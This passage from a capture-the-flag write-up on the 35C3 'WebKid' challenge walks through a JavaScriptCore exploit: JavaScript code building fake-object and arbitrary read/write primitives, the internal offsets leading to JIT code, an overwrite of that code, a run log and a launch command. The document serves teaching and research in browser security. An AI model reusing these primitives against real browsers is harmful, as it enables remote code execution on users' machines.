The property `header` will be the header of our fake object `hax` and will contain `js_cell_header`. The property `butterfly` will be the butterfly of our fake object `hax` and will point to `victim`.

```javascript
var container = {
    header: js_cell_header.asJSValue(),
    butterfly: victim
};
```

We then get the address of container, using `addrof`.

```javascript
var container_addr = addrof(container);
```

We can now create our fake array `hax` and make it point to the `header` property of `container` located at `addrof(container)+0x10`.

```javascript
var hax = fakeobj(Add(container_addr, 0x10));
```
From this fake object, it is now possible to construct read and write primitives. Below are annoted functions implementing these primitives.

```javascript
var memory = {
    /*
     * writeInt64 writes a quad-word at an arbitrary location.
     * This functions changes the butterfly of the object victim to addr+0x10
     * and then writes the value int64 to the property pointer, which results
     * in int64 being written to addr.
     */
    writeInt64(addr, int64) {
        hax[1] = Add(addr, 0x10).asDouble();
        victim.pointer = int64.asJSValue();
    },

    /*
     * readInt64 reads a quad-word from an arbitrary location.
     * This functions changes the butterfly of the object victim to addr+0x10
     * and then reads the address of the property pointer, which is actually
     * the quad-word stored at the address addr.
     * This primitive is limited though, it only works for bit patterns that
     * don't represent NaN values.
     */
    readInt64(addr) {
        hax[1] = Add(addr, 0x10).asDouble();
        return addrof(victim.pointer);
    },
};
```

### Arbitrary Code Execution

Now that we are capable of reading and writing values at arbitrary locations, the last step of the exploit is to get code execution.

#### Exploit Overview

This can be done fairly easily, since JSC uses RWX pages to store JIT compiled code. To get code execution we would then just have to force a JS function to be JIT compiled and then change its code using our write primitive.

The following snippet of code's purpose is to JIT compile a function, which has already been done at the beginning of this writeup.

```javascript
function get_jit_compiled_function() {
    function target(num) {
        num += 1.234;
        for (var i = 0; i < 200; i++)
            num /= 0.1;
        num = num % 3;
        return num;
    }

    for (var i = 0; i < 100000; i++) {
        target(10.42);
    }

    return target;
}

var jit_compiled_func = get_jit_compiled_function();
```

`jit_compiled_func` now contains a JIT compiled function that we can modify.

#### Finding the Code Address

The next step is to find the actual address of the JIT compiled code. To do so, an interesting starting point is `JSC::JITCode::execute` which is called when a JIT compiled function is executed. This function has the following source code:

```cpp
ALWAYS_INLINE JSValue JITCode::execute(VM* vm, ProtoCallFrame* protoCallFrame)
{
    auto scope = DECLARE_THROW_SCOPE(*vm);
    void* entryAddress;
    entryAddress = addressForCall(MustCheckArity).executableAddress();
    JSValue result = JSValue::decode(vmEntryToJavaScript(entryAddress, vm, protoCallFrame));
    return scope.exception() ? jsNull() : result;
}
```

This function uses `vmEntryToJavaScript` to execute the code located at `entryAddress`. `entryAddress` is retrieved using `addressForCall` and `executableAddress`. The latter, which implementation is foud in `MacroAssemblerCodeRef.h`, is not particularily interesting:

```cpp
void* executableAddress() const
{
    PoisonedMasmPtr::assertIsNotPoisoned(m_value);
    return m_value;
}
```

However, `addressForCall` is. It is called with the argument `MustCheckArity`, which means it will return `m_arityCheckEntrypoint.code()`, the actual address of the JIT compiled code. Below is the implementation of `addressForCall` for the FTL tier of the JIT Engine and can be found in `FTLJITCode.cpp`. According to the WebKit's article on their JIT engine implementation, FTL will be used because the function is called 100,000 times in the exploit.

```cpp
JITCode::CodePtr<JSEntryPtrTag> JITCode::addressForCall(ArityCheckMode arityCheck)
{
    switch (arityCheck) {
    case ArityCheckNotRequired:
        return m_addressForCall;
    case MustCheckArity:
        return m_arityCheckEntrypoint.code();
    }
    RELEASE_ASSERT_NOT_REACHED();
    return CodePtr<JSEntryPtrTag>();
}
```
`m_arityCheckEntrypoint` is set using `initializeArityCheckEntrypoint` (`FTLJITCode.cpp`).

```cpp
void JITCode::initializeArityCheckEntrypoint(CodeRef<JSEntryPtrTag> entrypoint)
{
    m_arityCheckEntrypoint = entrypoint;
}
```
`initializeArityCheckEntrypoint` is called in `JITFinalizer::finalizeCommon`:

```
bool JITFinalizer::finalizeCommon()
{
    bool dumpDisassembly = shouldDumpDisassembly() || Options::asyncDisassembly();
    
    MacroAssemblerCodeRef<JSEntryPtrTag> b3CodeRef =
        FINALIZE_CODE_IF(dumpDisassembly, *b3CodeLinkBuffer, JSEntryPtrTag,
            "FTL B3 code for %s", toCString(CodeBlockWithJITType(m_plan.codeBlock(), JITCode::FTLJIT)).data());

    MacroAssemblerCodeRef<JSEntryPtrTag> arityCheckCodeRef = entrypointLinkBuffer
        ? FINALIZE_CODE_IF(dumpDisassembly, *entrypointLinkBuffer, JSEntryPtrTag,
            "FTL entrypoint thunk for %s with B3 generated code at %p", toCString(CodeBlockWithJITType(m_plan.codeBlock(), JITCode::FTLJIT)).data(), function)
        : MacroAssemblerCodeRef<JSEntryPtrTag>::createSelfManagedCodeRef(b3CodeRef.code());

    jitCode->initializeB3Code(b3CodeRef);
    jitCode->initializeArityCheckEntrypoint(arityCheckCodeRef);

    m_plan.codeBlock()->setJITCode(*jitCode);

    if (UNLIKELY(m_plan.compilation()))
        m_plan.vm()->m_perBytecodeProfiler->addCompilation(m_plan.codeBlock(), *m_plan.compilation());

    return true;
}
```

This function initializes two important values: `m_arityCheckEntrypoint`, as stated above, but also a reference to the B3 code.

```cpp
[...]
jitCode->initializeB3Code(b3CodeRef);
jitCode->initializeArityCheckEntrypoint(arityCheckCodeRef);
[...]
```
The `arityCheckCodeRef` object will be created either to directly reference the B3 code or to use a subroutine to call it.

```cpp
MacroAssemblerCodeRef<JSEntryPtrTag> arityCheckCodeRef = entrypointLinkBuffer
    ? FINALIZE_CODE_IF(dumpDisassembly, *entrypointLinkBuffer, JSEntryPtrTag, "FTL entrypoint thunk for %s with B3 generated code at %p", toCString(CodeBlockWithJITType(m_plan.codeBlock(), JITCode::FTLJIT)).data(), function)
    : MacroAssemblerCodeRef<JSEntryPtrTag>::createSelfManagedCodeRef(b3CodeRef.code());
```

The exact details of `arityCheckCodeRef`'s initialization are left as an exercise to the reader.

In any case, the value we will modify in the `FTL::JITCode` object is `m_b3Code`, because it is where the JIT compiled code is actually stored.

#### Finding a Path to the JIT Compiled Code

Now we need to retrieve the address of `m_b3Code` knowing only `jit_compiled_func`'s.

`JITCode::execute`, which is responsible of excuting the JIT compiled code, is called by the function `Interpreter::executeCall` by executing:

```
result = callData.js.functionExecutable->generatedJITCodeForCall()->execute(&vm, &protoCallFrame);
```

`callData` is a structure with the following format:

```cpp
struct CallData {
    union {
        struct {
            TaggedNativeFunction function;
        } native;
        struct {
            FunctionExecutable* functionExecutable;
            JSScope* scope;
        } js;
    };
};
```

It is initialized a bit earlier in the `Interpreter::executeCall` function with the following instruction:

```cpp
 JSObject* compileError = callData.js.functionExecutable->prepareForExecution<FunctionExecutable>(vm, jsCast<JSFunction*>(function), scope, CodeForCall, newCodeBlock);
```

The function `prepareForExecution` calls `ScriptExecutable::prepareForExecutionImpl`, which then calls `ScriptExecutable::installCode`. The latter will set the attribute `m_jitCodeForCall` to point to the `JITCode` object containing the JIT compiled code.

```cpp
m_jitCodeForCall = genericCodeBlock ? genericCodeBlock->jitCode() : nullptr;
```
Now we know that the attribute `m_jitCodeForCall` pointing to the JIT compiled code is contained into `callData.js.functionExecutable`, a `FunctionExecutable` object. However, we don't know where this value comes from. The answer is in `JSC::callToPrimitiveFunction`, the functions which calls `JSC::call`, the caller to `JSC::Interpreter::executeCall` (so we have `JSC::callToPrimitiveFunction` -> `JSC::call` -> `JSC::Interpreter::executeCall`).

In `JSC::callToPrimitiveFunction`, the `callData` structure is filled with information from the current JIT compiled function to be executed.

```cpp
static ALWAYS_INLINE JSValue callToPrimitiveFunction(ExecState* exec, const JSObject* object, PropertyName propertyName, PreferredPrimitiveType hint)
{
    [...]
    CallType callType = getCallData(vm, function, callData);
    [...]
}
```

`getCallData` sets `callData.js.functionExecutable` to `thisObject->jsExecutable();`

```cpp
CallType JSFunction::getCallData(JSCell* cell, CallData& callData)
{
    JSFunction* thisObject = jsCast<JSFunction*>(cell);
    if (thisObject->isHostFunction()) {
        callData.native.function = thisObject->nativeFunction();
        return CallType::Host;
    }
    callData.js.functionExecutable = thisObject->jsExecutable();
    callData.js.scope = thisObject->scope();
    return CallType::JS;
}
```

`jsExecutable` returns the `m_executable` attribute from the `JSFunction` object.

```cpp
inline FunctionExecutable* JSFunction::jsExecutable() const
{
    ASSERT(!isHostFunctionNonInline());
    return static_cast<FunctionExecutable*>(m_executable.get());
}
```
We now have the full path to reach the JIT compiled code from the `JSFunction` object.

```
JSC::JSFunction jit_compiled_func
    +-> JSC::ExecutableBase m_executable (JSC::FunctionExecutable inherites from JSC::ExecutableBase)
        +-> JSC::FTL::JITCode m_jitCodeForCall
            +-> JSC::CodeRef<JSEntryPtrTag> m_b3Code

```

#### Finding the Offsets

The last step will be to find the offsets of all these attributes. It can be done using the help of a WebKit tool called `dump-class-layout` which was introduced to me through this [article](https://doar-e.github.io/blog/2018/07/14/cve-2017-2446-or-jscjsglobalobjectishavingabadtime/#introduction) (another great introduction to browser exploitation).

It was a bit of a pain to make this tool work, I had to recompile JSC non statically using the following command line (it will give you a symbolized Release version of JSC, but you can do the same for a Debug version):

```
CFLAGS=-g CXXFLAGS=-g ./Tools/Scripts/build-webkit --jsc-only
```
Normally, you could use `dump-class-layout` out-of-the-box with the following command:

```
./Tools/Scripts/dump-class-layout JavaScriptCore FTL::JITCode
```

However it did not work for me and I had to specify the actual path to the target (this tool has changed since then and the following command line won't work on newer versions of WebKit):

```
./Tools/Scripts/dump-class-layout -t "/Users/lyte/exploit/webkit/WebKitBuild/Release/lib/JavaScriptCore.framework/Versions/1.0.0/JavaScriptCore"  JavaScriptCore FTL::JITCode
```
If everything went has planned, you should have the following output:

```bash
lyte ~/e/webkit> ./Tools/Scripts/dump-class-layout -t "/Users/lyte/exploit/webkit/WebKitBuild/Release/lib/JavaScriptCore.framework/Versions/1.0.0/JavaScriptCore"  JavaScriptCore FTL::JITCode
  +0 <392> JITCode
  +0 < 16>     JSC::JITCode JSC::JITCode
  +0 <  8>        __vtbl_ptr_type * _vptr
  +8 <  4>         WTF::ThreadSafeRefCounted<JSC::JITCode, WTF::DestructionThread::Any> WTF::ThreadSafeRefCounted<JSC::JITCode, WTF::DestructionThread::Any>
  +8 <  4>             WTF::ThreadSafeRefCountedBase WTF::ThreadSafeRefCountedBase
  [...]
```

Now we can find the offsets of all the attributes listed above for the Release version of JSC:

```
lyte ~/e/webkit> ./Tools/Scripts/dump-class-layout -t "/Users/lyte/exploit/webkit/WebKitBuild/Release/lib/JavaScriptCore.framework/Versions/1.0.0/JavaScriptCore"  JavaScriptCore JSC::JSFunction | grep "m_executable"
 +24 <  8>     JSC::JSFunction::PoisonedBarrier<JSC::ExecutableBase> m_executable
 
lyte ~/e/webkit> ./Tools/Scripts/dump-class-layout -t "/Users/lyte/exploit/webkit/WebKitBuild/Release/lib/JavaScriptCore.framework/Versions/1.0.0/JavaScriptCore"  JavaScriptCore JSC::ExecutableBase | grep "m_jitCodeForCall"
 +24 <  8>     WTF::RefPtr<JSC::JITCode, WTF::DumbPtrTraits<JSC::JITCode> > m_jitCodeForCall
 
lyte ~/e/webkit> ./Tools/Scripts/dump-class-layout -t "/Users/lyte/exploit/webkit/WebKitBuild/Release/lib/JavaScriptCore.framework/Versions/1.0.0/JavaScriptCore"  JavaScriptCore FTL::JITCode | grep "m_b3Code"
 +352 < 16>     CodeRef<JSEntryPtrTag> m_b3Code
```

The Debug offsets are the same, except for `m_b3Code` which is at the offset `368`.

#### Putting it All Together

The final stage of the exploit is to change the code of a JIT compiled function.

We can use the previously defined function `get_jit_compiled_function ` which returns a JIT compiled function.

```javascript
var jit_compiled_func = get_jit_compiled_function();
```

Now, using the address of this object, we will calculate the address where the B3 code is located.

```javascript
var jit_compiled_func_addr = addrof(jit_compiled_func);
var executable_addr = memory.readInt64(Add(jit_compiled_func_addr, 24));
var jit_code_addr = memory.readInt64(Add(executable_addr, 24));
var b3code_addr = memory.readInt64(Add(jit_code_addr, 368));
```

The only remaining step is to change the code at `b3code_addr` by arbitrary opcodes. In our case it will be `int 3` instructions, since we can't do anything fancy, like popping a shell, because of the sandbox. 

```javascript
memory.write(b3code_addr, [0xcc, 0xcc, 0xcc]);
```

The last step is to execute the hijacked function.

```javascript
jit_compiled_func();
```

If everything worked as expected, JavaScriptCore should SIGTRAP.

```
[+] =========================================================
[+] (ﾉ◕ヮ◕)ﾉ*:・ﾟ✧ 35C3CTF - WebKid Exploit (ﾉ◕ヮ◕)ﾉ*:・ﾟ✧
[+] =========================================================
[+]
[+] Step 1: Constructing addrof and fakeobj primitives
[+] --------------------------------------------------
[+]	JIT compilation of get_first_elmt and set_first_elmt.
[+]	addrof and fakeobj constructed.
[+]
[+] Step 2: Constructing arbitrary read and write primitives
[+] --------------------------------------------------------
[+]	Spraying structures of double arrays to guess their ID.
[+]	Creating the fake double array: hax.
[+]	Object "container" containing hax @ 0x00000001146c8500
[+]	Fake object hax @ 0x00000001146c8510
[+]	Arbitrary read and write primitives created.
[+]	Arbitrary read and write tests:
[+]		Creating obj.
[+]		obj.b @ 0x00000001146c8bb8 = 0xfedcba9876543000
[+]		Object obj @ 0x00000001146c8ba0
[+]		obj.a @ 0x00000001146c8bb0 = 0x0124456789abcdf0
[+]		obj.b @ 0x00000001146c8bb8 = 0xfeddba9876543000
[+]		Writing obj.a into obj.b
[+]		obj.b @ 0x00000001146c8bb8 = 0x0123456789abcdf0
[+]		Tests passed!
[+]
[+] Step 3: Arbitrary Code Execution
[+] --------------------------------
[+]	JIT compiling jit_compiled_func
[+]	JSC::JSFunction jit_compiled_func @ 0x0000000114c19b30
[+]		+-> JSC::ExecutableBase m_executable @ 0x00000001146ff4f0
[+]		+-> JSC::FTL::JITCode m_jitCodeForCall @ 0x0000000114bbd198
[+]		+-> JSC::CodeRef<JSEntryPtrTag> m_b3Code @ 0x00000167c91059a0
[+]	Modifying jit_compiled_func's code by `int 3` instructions.
[+]
[+] JavaScriptCore should now SIGTRAP!
[+]
fish: '/Users/lyte/exploit/webkit/We…' terminated by signal SIGTRAP (Trace or breakpoint trap)
```

## Using the Exploit

If you want to try this on your own, the exploit is available here: TODO.

to launch it on a vulnerable JSC, you can use the following command line:

```bash
cat utils.js int64.js exploit.js > exploit.final.js; /path/to/jsc exploit.final.js
```
`utils.js` and `int64.js` are JS libraries developed by saelo implementing common functions used during exploit development (Int64 operations, hex conversion, etc.). It is possible to attack directly a vulnerable WebKit version using a crafted HTML files including `utils.js`, `int64.js` and `exploit.js`, but it wouldn't be of much use considering the current shellcode.

## Conclusion

During the CTF, without any knowledge on the subject it was pretty hard to find the vulnerability. Hopefully, writeups were published and I was able to understand how it works and how to exploit it. This challenge was a great introduction to browser exploitation and even though resources are pretty scarce at the moment, it's getting better over time. Below is a list of papers, blog articles or talks on the subject if you're interested.

The next logical step would now be to exploit the sandbox from the browser to get code execution on the machine (and actually get a shell this time). I might try it in the future.


## References

* Attacking JavaScript Engines, Phrack
    * [http://www.phrack.org/papers/attacking\_javascript\_engines.html](http://www.phrack.org/papers/attacking_javascript_engines.html)

* Introducing the WebKit FTL JIT, WebKit
    * [https://webkit.org/blog/3362/introducing-the-webkit-ftl-jit/](https://webkit.org/blog/3362/introducing-the-webkit-ftl-jit/)

* Introducing the B3 JIT Compiler, WebKit
    * [https://webkit.org/blog/5852/introducing-the-b3-jit-compiler/](https://webkit.org/blog/5852/introducing-the-b3-jit-compiler/)

* ES6 Feature Complete, WebKit
    * [https://webkit.org/blog/6756/es6-feature-complete/](https://webkit.org/blog/6756/es6-feature-complete/)

* Attacking Client-Side JIT Compilers, BHUSA18
    * [https://saelo.github.io/presentations/blackhat_us_18_attacking_client_side_jit_compilers.pdf](https://saelo.github.io/presentations/blackhat_us_18_attacking_client_side_jit_compilers.pdf)

* WebKid writeup by Linus Henze
    * [https://github.com/LinusHenze/35C3_Writeups/blob/master/WebKid/README.md](https://github.com/LinusHenze/35C3_Writeups/blob/master/WebKid/README.md)

* WebKid writeup by saelo
    * [https://github.com/saelo/35c3ctf/tree/master/WebKid](https://github.com/saelo/35c3ctf/tree/master/WebKid)

* CVE-2017-2446 or JSC::JSGlobalObject::isHavingABadTime
    * [https://doar-e.github.io/blog/2018/07/14/cve-2017-2446-or-jscjsglobalobjectishavingabadtime/#introduction](https://doar-e.github.io/blog/2018/07/14/cve-2017-2446-or-jscjsglobalobjectishavingabadtime/#introduction)

* Compilation of resources on browser exploitation
    * [https://github.com/m1ghtym0/browser-pwn](https://github.com/m1ghtym0/browser-pwn)
